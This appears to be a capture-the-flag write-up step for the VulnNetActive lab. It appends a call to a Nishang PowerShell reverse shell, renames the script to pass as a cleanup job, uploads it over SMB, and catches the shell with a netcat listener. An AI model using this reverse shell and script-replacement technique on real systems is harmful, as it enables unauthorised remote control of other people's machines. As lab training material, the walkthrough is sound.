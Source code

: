 <p>

- download <code>https://github.com/samratashok/nishang/tree/master/Shells/Invoke-PowerShellTcp.ps1</code><br>
- add <code>Invoke-PowerShellTcp -Reverse -IPAddress xx.xxx.x.xxx -Port xxxx</code> to <code>Invoke-PowerShellTcp.ps1</code></p>


```bash
:~/VulnNetActive# wget https://github.com/samratashok/nishang/tree/master/Shells/Invoke-PowerShellTcp.ps1 -o Invoke-PowershellTcp.ps1
```

```bash
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress xx.xxx.x.xxx -Port xxxx
```


```bash
:~/VulnNetActive# mv Invoke-PowerShellTcp.ps1 PurgeIrrelevantData_1826.ps1
```

```bash
smb: \> put PurgeIrrelevantData_1826.ps1
putting file PurgeIrrelevantData_1826.ps1 as \PurgeIrrelevantData_1826.ps1 (4300.4 kb/s) (average 4300.8 kb/s)
smb: \> 
```

<h2></h2>

```bash
:~/VulnNetActive# nc -nlvp 1234
Listening on 0.0.0.0 1234
...
Windows PowerShell running as user enterprise-security on VULNNET-BC3TCK1
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\enterprise-security\Downloads>
```

<img width="1290" height="628" alt="image" src="https://github.com/user-attachments/assets/fe62514c-b69d-4470-a475-be13f27f336f" />
